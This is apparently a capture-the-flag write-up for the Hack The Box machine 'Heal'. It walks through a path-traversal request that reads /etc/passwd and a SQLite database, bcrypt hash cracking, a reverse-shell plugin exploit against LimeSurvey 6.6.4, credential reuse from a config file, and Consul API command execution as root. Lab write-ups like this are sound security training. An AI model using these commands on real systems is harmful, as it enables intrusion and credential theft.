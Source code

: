 +++
title = "HTB - Heal"
date = "2025-04-21"
author = "dax"
cover = ""
tags = ["path-traversal", "hashcat", "lime-survey", "consul", "CVE-2021-44967"]
keywords = ["hacking", "htb", "heal", "hack the box"]
description = "Write-up of Hack The Box medium machine Heal"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - Heal
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Wed Apr  2 20:03:11 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp heal.htb
Warning: 10.10.11.46 giving up on port because retransmission cap hit (6).
Nmap scan report for heal.htb (10.10.11.46)
Host is up (0.022s latency).
Not shown: 65472 closed tcp ports (reset), 61 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Heal
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 800D9D6AD40E40173F19D5EE9752AC18
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 23.646 days (since Mon Mar 10 04:36:59 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   21.70 ms 10.10.14.1
2   21.91 ms heal.htb (10.10.11.46)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  2 20:06:58 2025 -- 1 IP address (1 host up) scanned in 227.92 seconds
```

## User exploit

By visiting web port 80, we are greeted by a login page for a `Fast Resume Builder` application. 

![](/img/htb/heal/heal_htb_login.png)

We can use the `NEW HERE? SIGN UP` link to create an account and access the app. At the bottom of the `/resume` page, there is an `EXPORT AS PDF` button that takes the HTML code of the resume form and returns a generated PDF file name. We then hit the `/download` endpoint that has a `filename` query parameter (to see it, be sure to check `Other binary` in the HTTP history filter or `Burp`). We can exploit a path traversal vulnerability in the `filename` parameter and retrieve files from the filesystem. 

```bash
curl --path-as-is -s -k -H $'Host: api.heal.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' $'http://api.heal.htb/download?filename=../../../../../../etc/passwd'
```

We can now use `ffuf` to try to find interesting files. Note that the web app is very sensitive to fuzzing, so we have to dial the speed down to get good results. 

```bash
ffuf -u http://api.heal.htb/download?filename=../../../../../..FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -H 'Host: api.heal.htb' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' -t 1
```

This returns quite a few results, but one that pops out is `/proc/self/fd/15`. If we try to download the file, we can see that it is the file descriptor for the SQLite database that the web app is using. We can find a `users` table that contains hashes for `ralph@heal.htb`, which we can crack with `hashcat`. The hash type is `bcrypt $2*$, Blowfish (Unix)`, which is mode `3200`. 

```batch
hashcat.exe -m 3200 heal.hashes rockyou.txt
```

We now have a set of credentials, but we don't know where to use them yet (since they don't work for SSH login). By navigating through the application, we see a `SURVEY` button at the top of the page, which leads to another page with a `TAKE THE SURVEY` button. This takes us to another vhost (`take-survey.heal.htb`), and looking at the HTML source code we learn that it is a `LimeSurvey` server. By taking a look at their Github, we can quickly learn about the folder structure and find the `/admin` subfolder. This takes us to the `LimeSurvey` login page. 

![](/img/htb/heal/limesurvey_login.png)

By using the credentials we cracked, we can log in to the administration interface and access the software. At the bottom of the page, we can see in the footer that the version is `6.6.4`. This version is affected by an RCE vulnerability (CVE-2021-44967) through the installation of a malicious PHP plugin (like most software that allows the installation of custom plugins). The exploit is easy to use: clone the repository, edit the `revshell.php` file to include your listener's IP and port, ZIP the payload and use the exploit script. 

```bash
vi revshell.php
zip -r N4s1rl1.zip config.xml revshell.php
python exploit.py http://take-survey.heal.htb ralph 147258369 80
 _   _ _  _  ____  _ ____  _     _ 
| \ | | || |/ ___|/ |  _ \| |   / |
|  \| | || |\___ \| | |_) | |   | |
| |\  |__   _|__) | |  _ <| |___| |
|_| \_|  |_||____/|_|_| \_\_____|_|
                                   

[INFO] Retrieving CSRF token for login...
[SUCCESS] CSRF Token Retrieved: YkZjQWppQWpJUVA4UG1tNjBCdExuNUc3WWZwS1VZZ1f46E7VbcPOqmD31MppUCumD8HtStxI_50C6VAf2BD1CQ==

[INFO] Sending Login Request...
[SUCCESS] Login Successful!

[INFO] Uploading Plugin...
[SUCCESS] Plugin Uploaded Successfully!

[INFO] Installing Plugin...
[SUCCESS] Plugin Installed Successfully!

[INFO] Activating Plugin...
[SUCCESS] Plugin Activated Successfully!

[INFO] Triggering Reverse Shell...
```

Now that we have access as `www-data`, we can start poking around the files we have access to. We eventually stumble upon the `LimeSurvey` configuration in `/var/www/limesurvey/application/config/config.php`, which contains the PostgreSQL connexion string. 

```
'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
```

While this password doesn't work for the `ralph` user, it does work for the `ron` user (that we can see in the `/etc/passwd` file). We can now log in to the SSH port as `ron` and get the user flag. 

## Root exploit

By looking at the open ports using `ss -naltp`, we can spot a few ports that are only accessible to localhost. Specifically, we find port `8500` that we can forward to our machine using SSH local port forwarding. 

```bash
ssh -L 8500:127.0.0.1:8500 ron@heal.htb
```

We can now access this port on localhost:8050, which is a `Consul` server. 

![](/img/htb/heal/consul.png)

There is a unauthenticated remote command execution vulnerability in the services API. The exploit works by registering a new service and adding the malicious command as a health check for this service. We can find the PoC on Github and exploit it to get the root flag, since the service runs as root. 

```bash
python consul_rce.py -th localhost -tp 8500 -c '/usr/bin/cp /root/root.txt /tmp/root.txt'
python consul_rce.py -th localhost -tp 8500 -c '/usr/bin/chmod 777 /tmp/root.txt'
```

## Resources:

| Hyperlink                                       | Info                                                         |
| ----------------------------------------------- | ------------------------------------------------------------ |
| https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE | Limesurvey-6.6.4-RCE                                         |
| https://github.com/owalid/consul-rce            | Hashicorp Consul - Remote Command Execution via Services API |
| https://github.com/ffuf/ffuf                    | ffuf                                                         |
| https://github.com/hashcat/hashcat              | hashcat                                                      |
| https://github.com/LimeSurvey/LimeSurvey        | LimeSurvey                                                   |
| https://github.com/hashicorp/consul             | Consul                                                       |
